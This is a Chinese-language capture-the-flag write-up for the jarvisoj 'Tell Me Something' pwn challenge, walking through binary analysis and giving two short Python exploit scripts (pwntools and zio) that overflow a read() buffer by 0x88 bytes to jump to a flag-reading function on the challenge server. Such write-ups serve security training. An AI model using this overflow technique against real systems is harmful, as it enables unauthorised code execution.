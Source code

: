 ```yaml
---
layout:     post
title:      jarvisoj Tell Me Something
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Problem Description:  
>Do you have something to tell me?  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/guestbook.d3d5869bd6fb04dd35b29c67426c0f05  
>  
>Address:  
>nc pwn.jarvisoj.com 9876  
<!-- more -->


### 0x00 file命令查看文件是64位elf格式

```
file guestbook
```

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x00.png)

### 0x01 checksec查看开了哪些保护，发现只有NX

```
checksec guestbook
```

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x01.png)

### 0x02 在kali linux 2.0中执行程序
```
chmod a+x ./guestbook
./guestbook
```

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x02.png)

### 0x03 执行文件放到IDA中分析

发现good_game这个函数很可疑

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x03.png)

跟进去发现函数内部在读取flag，这应该就是我们要找的关键函数

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x04.png)

接下来对main函数进行分析，发现没有调用到good_game，但存在read这个溢出函数

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x05.png)

看一下缓冲区到返回地址的距离，0x88个字节

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x06.png)

### 0x04 现在可以开始写exploit

调用pwntools

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
payload = "A" * 0x88 + p64(0x400620)
# Io = process('./guestbook')
Io = remote('pwn.jarvisoj.com', 9876)
Io.recvuntil('message:')
Io.send(payload)
Io.interactive()
```

调用zio
```
#!/usr/bin/python
# -*- coding:utf8 -*-

import zio
payload = "A"*0x88 + "\x20\x06\x40\x00\x00\x00\x00\x00"
# Io = zio.zio('./guestbook')
Io = zio.zio(('pwn.jarvisoj.com',9876))
Io.write(payload)
Io.interact()
```

得到flag

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-tell-me-something/0x07.png)